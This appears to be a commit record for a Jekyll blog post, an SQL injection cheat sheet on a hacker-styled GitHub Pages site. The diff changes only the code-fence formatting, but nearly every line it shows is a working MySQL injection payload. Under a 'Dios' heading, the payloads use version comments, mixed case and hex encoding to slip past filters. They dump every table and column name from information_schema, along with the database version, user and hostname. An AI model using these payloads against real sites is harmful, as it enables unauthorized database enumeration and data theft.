

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2019-04-13-sql-cheat-shet.md, in a window 1280 px wide and 900 px high, scrolled down 3115 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2019-04-13-sql-cheat-shet.md

````diff
--- a/_posts/2019-04-13-sql-cheat-shet.md
+++ b/_posts/2019-04-13-sql-cheat-shet.md
@@ -171,24 +171,19 @@ CONVERT(group_concat(table_name)+USING+latin5)
 
 ### Dios
 
-```
+```bash
 /*!50000make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)*/
-```
-```bash
+
 (/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)
-```
-```bash
+
 (select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)
-```
-```bash
+
 (select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@)))
-```
-```bash
+
 (Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))
-```
 
 make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
-
+```
 
 concat_ws('<br>','AZZATSSINS',database(),version(),user(),@@hostname,(select(group_concat('<br>',table_name,':',column_name))from(information_schema.columns)where(table_Schema=database())))
 
````
